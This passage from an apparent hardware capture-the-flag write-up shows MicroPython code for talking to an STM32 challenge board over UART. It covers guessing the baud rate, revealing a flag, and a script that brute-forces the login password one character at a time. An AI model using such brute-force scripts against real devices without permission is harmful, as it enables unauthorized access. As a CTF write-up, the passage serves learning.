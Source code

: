 ```py
import sys
import select
from machine import Pin, UART

# This script must be executed from the REPL
# ie with mpremote, `mpremote mount .` then `import uart_tgt`

uart = UART(1, baudrate=9600, tx=Pin(4), rx=Pin(5))

while True:
    if uart.any():
        c = uart.read(1)
        sys.stdout.buffer.write(c)

    if select.select([sys.stdin], [], [], 0.0)[0]:
        data = sys.stdin.buffer.read(1)
        uart.write(data)
```

However, we have to find the appropriate baud rate in order to be able to exchange data with the STM32.

We can try to brute-force some common baud rates

```py
common_baud_rates = [4800, 9600, 19200, 38400, 57600, 115200, 230400, 460800, 921600]
```

> I was unsuccessful with my brute-force attempts. After speaking to the author, I realized that sending data on the some of the wrong baud rates caused the UART to be unresponsive subsequently to all data sent.
> 
> The only way to fix this was to **hit the RST button between each attempt**.
{:.prompt-warning}

Eventually, we managed to find the correct baud rate of **57600**.

```
commands:
- flag
- login <password [a-zA-Z0-9_]+>
- pour
- validate

> flag
flag{d1d_y0u_sWap_ur_tx_rx_l1n3s}
```

### Logging In

For this challenge, we have to login with some password.

We can try to write a short script to brute-force a single character.

```py
import time
from machine import Pin, UART

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_"

for i in charset:
    uart = UART(1, baudrate=57600, tx=Pin(4), rx=Pin(5))
    uart.write(f"login {i}\n")
    time.sleep(0.015)
    print(uart.read(uart.any()))


# b'login a\r\nwrong password\r\n> '
```